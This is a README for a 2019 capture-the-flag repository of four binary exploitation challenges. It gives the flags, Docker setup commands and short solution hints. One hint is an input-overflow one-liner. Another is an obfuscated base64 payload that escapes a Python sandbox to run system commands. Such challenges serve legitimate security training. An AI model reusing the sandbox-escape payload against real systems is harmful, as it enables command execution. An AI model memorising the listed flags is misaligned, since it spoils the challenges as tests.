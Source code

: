 ## MCSC 2019 Binary Exploitation Challenges
>thinbashane < @art0flunam00n >

**1.warmup - 50**

Description 
 - get the flag ! 
 - pwn50.c 

Flag
 - `MCSC_2019{v4riabl3_0v3rwrite3_b0f}`

Setting up
 - `cd pwn50` - change directory to the challenge
 - `docker build -t pwn50 .` - build from Dockerfile
 - `docker run -p 1337:1337 pwn50` - run docker containter
 - `nc <server_ip> 1337` - Challenge Access 

Solution
	 - `python -c 'print "MCSC"*30'`

Writeup
 - releases after competition
---
**2.interview - 100**

Description
 - Read the fl4g file
 - Binary file

Flag
 - `MCSC_2019{buff3r_0verfl0w_15_3a5y}`

Setting up
 - `cd pwn100b` - change directory to the challenge
 - `docker build -t pwn100b .` - build from Dockerfile
 - `docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -p 2222:2222 pwn100b` - run docker containter
 - `nc <server_ip> 2222`

Writeup
 - releases after competition
 - exp.py

---
**3.lolcalc - 200**

Description
 - Read the fl4g file

Flag
 - `MCSC_2019{mM_5and_b0x_fuN_b0y_}`

Setting up
 - `cd pwn200` - change directory to the challenge
 - `docker build -t pwn200 .` - build from Dockerfile
 - Run docker 
	 - ```docker run -p 1997:1997 pwn200```
 - `SSH service`  

Writeup
 - releases after competition
 - `__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system("f***")`

**4.password - 250**

Description
 - Read the fl4g file
 - binary file

Flag
 - `MCSC_2019{UAF_u53_4ft3r_fr33_fl4g}`

Setting up
 - `cd pwn200` - change directory to the challenge
 - `docker build -t pwn200 .` - build from Dockerfile
 - Run docker 
	 - ```docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -p 1994:1994 pwn200```
 - `nc <server_ip> 1994` 

Writeup
 - releases after competition
 - exploit.py


